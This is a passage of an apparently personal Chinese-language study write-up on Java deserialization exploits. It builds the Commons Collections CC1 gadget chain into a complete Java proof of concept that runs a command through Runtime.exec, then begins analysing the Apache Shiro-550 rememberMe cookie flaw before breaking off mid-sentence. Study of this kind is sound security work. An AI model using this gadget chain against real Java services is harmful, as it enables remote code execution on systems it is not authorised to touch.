可以看到一共嵌套了三层，我们直接使用cc库中自带的链式transformer类ChainedTransformer


我们使用ChainedTransformer进行改写

```java
//用ChainedTransformer改写
Transformer[] transformers = new Transformer[]{
        new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(rt);
```

自此我们实现了通过Runtime原型类反射执行命令

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.deserialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class TestCC1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        //首先通过反射获取exec方法
        //Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        //invokerTransformer.transform(runtime);


        Class rt = Class.forName("java.lang.Runtime");
//        //普通反射
//        Method getRuntimeMethod = rt.getMethod("getRuntime",null);
//        Runtime runtime = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = rt.getMethod("exec", String.class);
//        execMethod.invoke(runtime,"calc");
        //用transform方法改写
        //获取getRuntime方法,首先获取Class原型类的getDeclaredMethod方法，然后定义传入参数类型，最后传入两个参数
//        Method getRuntime = (Method) new InvokerTransformer(
//                "getDeclaredMethod",
//                new Class[]{String.class,Class[].class},
//                new Object[]{"getRuntime",null}
//        ).transform(rt);
//        //获取Runtime对象,首先获取invoke方法，定义参数类型，最后两个null
//        Runtime runtime = (Runtime) new InvokerTransformer(
//                "invoke",
//                new Class[]{Object.class,Object[].class},
//                new Object[]{null,null}
//        ).transform(getRuntime);
//        //反射执行exec方法
//        new InvokerTransformer(
//                "exec",
//                new Class[]{String.class},
//                new Object[]{"calc"}
//        ).transform(runtime);
        //用ChainedTransformer改写
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(rt);


        //实例化一个HashMap对象用于decorate方法接收
        HashMap<Object,Object> map = new HashMap<>();
        //首先通过put方法推一个键值对进去，才能进行遍历
        map.put("test","value");
        //调用public方法decorate实例化
        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

//        //遍历Map的常用格式
//        for(Map.Entry<Object, Object> entry:transformedMap.entrySet()){
//            //通过setValue方法传入Runtime对象
//            entry.setValue(runtime);
//        }

        //反射获取AnnotationInvocationHandler类
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Override.class, transformedMap);

        serialize(object);
        unserialize("H:\\学习记录\\学习记录Markdown\\Java安全通用\\CC1");
    }

    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos=new ObjectOutputStream(Files.newOutputStream(Paths.get("H:\\学习记录\\学习记录Markdown\\Java安全通用\\CC1")));
        oos.writeObject(object);
    }

    public static void unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream(filename));
        Object test = objectInputStream.readObject();
        System.out.println(test);
    }
}
```

现在回到触发点readObject处


观察了一下，发现我们要利用的setValue方法包括在第二层if语句内，因此我们需要同时满足这两个if条件，直接在第一个if处下断点运行


由于idea反编译，代码出现了变动，可以无视，此处变量var7即为memberType且值为null，直接跳出了语句

我们来看看memberType是什么


从名字我们可以看出，这个是用来处理注解中成员变量的，而我们此时使用的注解是Override


其中并没有成员变量，我们找一个其他的，例如Target注解中，存在一个value成员变量


我们可以使用Target注解，并且推一个键名为value的键值对

```java
......
map.put("test","value");
......
//反射获取AnnotationInvocationHandler类
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object object = constructor.newInstance(Target.class, transformedMap);
```


现在var7即memberType的值不为空，满足第一个if


第二个if也满足，成功达到setValue方法，继续跟进


我们发现传入的value并不是需要的Runtime类，而是AnnotationTypeMismatchExceptionProxy，回到第二个if语句，我们可以看到setValue方法直接接受的是`new AnnotationTypeMismatchExceptionProxy()`语句所实例化的对象，因此无法找到getDeclaredMethod方法


因此我们需要转换这里传入的value值，跟进checkSetValue方法发现是TransformedMap类


我们首先观察一下链式transform的流程，通过下标递增依次执行

可以看到这里执行的是valueTransformer的transform方法，这一条ChainedTransformer链一共有三个Transformer，我们跟进到ChainedTransformer的transform方法，当下标为0时传入对象为AnnotationTypeMismatchExceptionProxy，找不到getDeclaredMethod直接报错


我们要如何转换这里接收到的对象类型呢，这里我们要用到的是cc库中的ConstantTransformer类，它的作用是转换返回的常量类型


```java
//用ConstantTransformer指定返回类型后的链式Transformer
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

继续运行跟进到chainedTransformer，当下标为0时执行ConstantTransformer的transform方法


此时将对象转换为了Runtime类并返回


成功达到终点，并进入Runtime类

整个调用链如下：

```sh
ObjectInputStream.readObject()
	AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AbstractInputCheckedMapDecorator.MapEntry.setValue()
                TransformedMap.decorate()
                TransformedMap.checkSetValue()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getDeclaredMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```


### Shiro550

#### 分析

在Apache shiro的框架中，执行身份验证时提供了一个记住密码的功能（RememberMe），如果用户登录时勾选了这个选项。用户的请求数据包中将会在cookie字段多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的。加密的过程是：**用户信息=>序列化=>AES加密（这一步需要用密钥key）=>base64编码=>添加到RememberMe Cookie字段**。勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的cookie值进行身份验证，无需登录即可访问。那么显然，服务端进行对cookie进行验证的步骤就是：**取出请求包中rememberMe的cookie值 => Base64解码=>AES解密（用到密钥key）=>反序列化。**


首先进行登录，勾选RememberMe选项


返回cookie字段钟存在rememberMe字段

或者直接携带任意rememberMe字段进行发包，相应包中存在deleteMe字段



当客户端再次请求服务端时，都会带上这个服务端第一次返回设置的Set-Cookie里面的rememberMe的密文，让服务端进行身份验证。

整个正常流程和攻击流程参照下图


可以看到触发点是cookie处理的部分，shiro默认使用CookieRememberMeManager类处理cookie

我们跟进到`org.apache.shiro.web.mgt.CookieRememberMeManager`类


`CookieRememberMeManager`类总共有四个涉及cookie处理的函数：`CookieRememberMeManager`， `rememberSerializedIdentity` ，`getRememberedSerializedIdentity`及`forgetIdentity`（公有，私有，保护），我们依次来看

##### CookieRememberMeManager


构造方法，作用是设置一个cookie对象，并且设置HttpOnly和MaxAge，跟进到SimpleCookie类


设置了
